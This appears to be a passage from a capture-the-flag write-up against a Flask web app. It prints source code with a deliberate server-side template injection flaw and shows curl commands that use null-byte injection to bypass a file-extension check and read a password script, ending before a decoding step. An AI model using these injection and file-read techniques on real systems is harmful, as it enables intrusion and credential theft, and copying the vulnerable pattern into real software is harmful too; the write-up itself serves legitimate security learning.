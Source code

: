 ```
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)

```

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=supersecrettip.txt'
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```

This `supersecrettip.txt` file contained a sequence of bytes that required decryption. In the debug function, comments highlighted the uppercase letters “X”, “O”, and “R”, strongly suggesting that the data had been encrypted using XOR. 

Direct download of debugpassword file, however, was not possible due to the application’s download() function. This function explicitly restricted downloads to either source.py or files with a .txt extension. Consequently, the debugpassword file could not be retrieved directly.

To overcome this limitation, a **null-byte injection** takes advantage of how certain frameworks handle string termination. A null byte (%00 in URL encoding or \x00 in raw form) can prematurely terminate a string, effectively truncating the value at the injection point.  appending a null byte before the forbidden extension may bypass the validation check while still allowing the server’s file-handling function to process the real filename.

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=debugpassword.py%00.txt'
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')

```
Next, let's write a qwuick script to decode given key with this function.
